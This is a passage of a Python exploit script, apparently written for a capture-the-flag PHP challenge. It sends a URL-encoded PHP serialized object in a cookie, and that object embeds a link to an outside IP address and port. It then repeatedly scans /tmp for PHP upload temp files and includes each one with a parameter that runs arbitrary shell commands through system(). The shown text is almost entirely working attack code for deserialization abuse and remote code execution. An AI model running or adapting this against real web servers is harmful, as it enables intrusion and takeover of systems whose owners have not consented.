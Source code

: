 ```

        'Cookie': 'ctfer=%4f%3a%37%3a%22%6d%79%63%6c%61%73%73%22%3a%32%3a%7b%73%3a%31%3a%22%61%22%3b%4f%3a%35%3a%22%48%65%6c%6c%6f%22%3a%32%3a%7b%73%3a%33%3a%22%71%77%62%22%3b%73%3a%32%35%3a%22%68%74%74%70%3a%2f%2f%38%31%2e%36%38%2e%31%37%30%2e%32%34%33%3a%32%33%33%33%22%3b%7d%73%3a%31%3a%22%62%22%3b%4f%3a%33%32%3a%22%65%32%61%37%31%30%36%66%31%63%63%38%62%62%31%65%31%33%31%38%64%66%37%30%61%61%30%61%33%35%34%30%22%3a%30%3a%7b%7d%7d'

    `}`

    response = requests.request("POST", url, headers=headers, data=payload, files=files, proxies=proxies)

    print(response.text)

 

 

def scanTmpDir():

    u = url + "/e2a7106f1cc8bb1e1318df70aa0a3540.php"

    param = `{`

        scan_param: '/tmp/',

    `}`

    while True:

        response1 = requests.get(u, params=param, allow_redirects=False)

        files = re.findall(r'php[a-zA-Z0-9]`{`6`}`', response1.text)

        if len(files) != 0:

            include(files)

 

 

def include(files):

    u = url + "/e2a7106f1cc8bb1e1318df70aa0a3540.php"

    for file in files:

        file = "/tmp/" + file

        param = `{`

            include_param: file,

            '1':"system('`{``}`');".format(command)

        `}`

        # print("including :", file)

        response = requests.get(u, params=param, proxies=proxies)

        print(response.text)
```